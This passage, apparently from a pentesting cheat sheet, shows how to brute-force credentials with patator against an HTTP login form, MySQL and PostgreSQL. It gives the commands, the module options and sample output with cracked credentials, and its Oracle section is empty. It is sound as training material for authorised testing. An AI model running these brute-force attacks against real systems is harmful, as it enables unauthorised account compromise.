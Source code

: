 #### Generic GET form
```sh
./patator.py http_fuzz url='http://192.168.0.7/login.php?username=FILE0&password=FILE1&login=' 0=user.txt 1=pass.txt -l test method=GET
```
Output get us status 200 all times. So:
```sh
./patator_help_script.sh test/ "Wrong"
test//18_200-2965:-1-0.035.txt
Your good credentials are in test number: 
test//18
```
### MySQL
In order to perform MySQL credentials bruteforce we are going to
use the mysql_login module.
```sh
./patator.py mysql_login host=IPADDRESS user=FILE0 password=FILE1 0=user.txt 1=pass.txt -x ignore:fgrep="Access denied"
```
Output:
```                                                                           
09:53:28 patator    INFO - code  size    time | candidate                          |   num | mesg
09:53:28 patator    INFO - -----------------------------------------------------------------------------
09:53:28 patator    INFO - 0     6      0.003 | root:toor                          |    10 | 5.7.17
09:53:28 patator    INFO - Hits/Done/Skip/Fail/Size: 1/90/0/0/90, Avg: 149 r/s, Time: 0h 0m 0s
```
Module options:
```
  host          : target host
  port          : target port [3306]
  user          : usernames to test
  password      : passwords to test
  timeout       : seconds to wait for a response [10]
```
### PostgreSQL
In order to perform PostgreSQL credentials bruteforce we are going to
use the `pgsql_login` module.
```sh
./patator.py  pgsql_login host=IPADDRESS user=FILE0 password=FILE1 0=user.txt  1=pass.txt -x ignore:egrep='exist|failed'
```
In this case we avoid not existing users and failed authentications.
Output:
```
10:59:18 patator    INFO - code  size    time | candidate                          |   num | mesg
10:59:18 patator    INFO - -----------------------------------------------------------------------------
10:59:23 patator    INFO - 0     2      0.470 | testuser:postgres                  |   110 | OK
10:59:23 patator    INFO - Hits/Done/Skip/Fail/Size: 1/110/0/0/110, Avg: 24 r/s, Time: 0h 0m 4s
```
Module options:
```
  host          : target host
  port          : target port [5432]
  user          : usernames to test
  password      : passwords to test
  database      : databases to test [postgres]
  timeout       : seconds to wait for a response [10]
```
### Oracle (work in progress)
In order to perform Oracle database credentials bruteforce we are going to
use the `oracle_login` module.
```sh
```
